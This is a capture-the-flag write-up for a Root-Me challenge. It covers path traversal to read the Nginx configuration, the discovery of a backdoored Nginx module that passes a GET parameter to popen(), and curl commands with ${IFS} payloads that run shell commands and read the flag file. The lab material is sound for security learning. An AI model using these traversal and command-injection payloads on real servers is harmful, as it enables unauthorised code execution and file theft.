





Description:



The trainee made a weird commit that’s flooding the server with requests—and eventually blocking connections. We’re hinted that something strange is lurking in their Nginx setup.


As soon as we connect we have a file reader form.
I stared with a whatweb



With this we know the backend runs a Nginx 1.24.0.
I tried to research for a file like a file.txt, example.txt localhost and /etc/nginx because of what could be anginx misconfiguration.

I tried then a normal path traversal because was the most coherent and no brainer exploit in this case.




And luckily I saw right.




Digging through /etc/nginx/nginx.conf I eventually ran into:



As we can see we there is a endpoint introduced by the trainee
```url
/Th1s_3ndp0int_1s_S3cr3t
```

Visiting that endpoint carved out from the trainee’s module gave me the source path:
```url
/usr/local/src/root-me-backdoor/ngx_http_root_me_backdoor_module.c
````

And when I visited the endpoint I found a file with 2 imporant lines:
```C
ngx_str_t param_name = ngx_string("r00t-m3.backd0or");
```
and
```C
fp = popen(command, "r");
```
If you send a GET parameter named r00t-m3.backd0or, its value is fed straight into popen().

First RCE test with `id`
```json
 curl -G 'http://node2.challenges.ctf20k.root-me.org:31669/Th1s_3ndp0int_1s_S3cr3t' \
     --data-urlencode 'r00t-m3.backd0or=id'

uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
```

After that, i tried to explore a lil bit like:

```url
r00t-m3.backd0or=echo${IFS}$(ls)'
r00t-m3.backd0or=echo${IFS}$(ls${IFS}../)'
```

And i stumbled upon this file
```bash
/flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d
```

And with a Curl
```bash
curl 'http://node3.challenges.ctf20k.root-me.org:34394/Th1s_3ndp0int_1s_S3cr3t?\
r00t-m3.backd0or=cat${IFS}</flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d'
```

And here is the flag
```url
RM{My_Tr4inee_B4ckd00r_My_Ng1nx}
```
